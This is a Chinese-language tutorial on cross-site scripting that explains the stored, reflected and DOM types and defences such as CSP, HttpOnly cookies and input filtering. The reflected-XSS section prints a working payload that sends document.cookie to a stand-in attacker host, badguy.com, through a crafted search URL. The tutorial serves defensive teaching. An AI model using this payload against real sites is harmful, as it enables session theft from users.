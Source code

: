 # XSS 跨域脚本攻击(Cross-Site Scripting)

跨站脚本攻击称为`XSS`，为了和`CSS`有所区分所以简写为`XSS`。
`XSS`注入攻击的一种，**本质是在网站上注入恶意脚本，使之在浏览器上运行**。
`XSS`攻击的主要攻击方式有获取用户信息(例如 Cookie)、在页面插入内容(例如广告)或流量劫持、诱导用户到非法网站等。

任何可输入的地方都可能注入恶意脚本，常见的输入方式：

- 用户的 UGC 信息
- URL 参数
- POST 参数
- Referer
- Cookie

常见的注入方式：

- 在 HTML 中内嵌的文本中，恶意内容以`<script/>`标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 标签的`href`、`src`属性，事件`onload`、`onerror`、`onclick`等使用`javascript:`注入

## 存储型(持久型) XSS 攻击

1. 攻击者将恶意代码提交到目标网站的数据库中。
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
3. 浏览器解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

常见场景：UGC 类网站，如贴吧、评论等
危险性较大，无需用户手动触发隐蔽性高，存储型攻击会对访问被攻击页面的所有用户进行攻击。

## 反射型(非持久型) XSS 攻击

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

常见常见：通过 URL 传递参数的功能，如网站搜索、跳转等。
危险性相对存储型较小，只有用户主动打开恶意的 URL 才能生效

```HTML
<!-- http://victim.com网站 后台代码 -->
<html>
　　<title></title>
　　<body>
　　　　Results  for  <%Request.QueryString("term")%>
　　　　...
　　</body>
</html>
<!-- 攻击 -->
<!-- step1 建立后台用来偷取用户信息 -->
http://badguy.com
<!-- step2 发送恶意链接，可以通过邮件 qq等 -->
http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
<!-- 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段 -->
<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
<!-- 这个代码自动运行把用户的cookie发送到了攻击者的网站 -->
```

## DOM 型 XSS 攻击

1. 攻击者构造出特殊的 URL，其中包含恶意代码。
2. 用户打开带有恶意代码的 URL。
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

## 应对策略

一些高级浏览器会自动拦截 XSS 攻击但是不能完全拦截。
防治的根本之道是过滤用户的输入，做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码。
在这方面前端无法彻底解决，更多的需要后端进行处理。

### CSP(Content-Security-Policy)

内容安全策略(CSP)的目标是建设和报告 XSS 攻击。CSP 通过指定有效域(浏览器认可的可执行脚本来源)可以阻止非信任脚本执行。

CSP 有两种配置方式：

- 在服务端使用 HTTP Response Header `Content-Security-Policy`字段配置
- 在 HTML 页面中使用`<meta>`标签配置

策略示例：`Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com`

- 各种内容默认仅允许从文档所在的源获取`default-src 'self';`, 但存在如下例外:
- 图片可以从任何地方加载(注意`*`通配符)。
- 多媒体文件仅允许从`media1.com`和`media2.com`加载(不允许从这些站点的子域名)。
- 可运行脚本仅允许来自于`userscripts.example.com`。

详细配置策略参考：[内容安全策略( CSP )](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)

### HttpOnly 防止劫持 Cookie

将重要的 Cookie 标记为`http-only`, 浏览器将禁止 Javascript 访问被标记的 Cookie，能阻止 XSS 攻击后的 Cookie 劫持攻击.

### 输入检查

**不相信用户的任何输入**，对于用户的任何输入要进行检查、过滤和转义。

1. 建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。
2. 只允许用户输入我们期望的数据。 例如：年龄的`<input />`中，只允许用户输入数字，数字之外的字符都过滤掉。
3. 检测是否包含`< >`等特殊字符，对特殊在发进行过滤或编码。

## TODO:WEB&Node 字符转义

## TODO:XSS 检测
